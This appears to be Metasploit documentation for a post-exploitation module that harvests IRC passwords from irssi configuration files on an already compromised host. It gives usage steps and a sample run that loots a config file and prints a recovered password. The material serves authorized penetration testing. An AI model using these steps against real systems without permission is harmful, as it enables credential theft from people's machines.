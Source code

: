 ## Vulnerable Application

[irssi](https://irssi.org/) an IRC and chat client.

This module was successfully tested against:

- OSX 10.10.5 and IRSSI version 0.8.19

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/irssi_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files containing irc passwords, they will be printed out.

## Scenarios

```
msf post(irssi_creds) > run

[*] Finding ~/.irssi/config
[*] Looting 1 files
[+] Found a IRC password(s): chubbybunnies
[+] IRC password(s) stored in /Users/[REDACTED]/.msf/loot/20170405005410_default_[REDACTED]_irc.password_744582.txt
[*] Post module execution completed
```
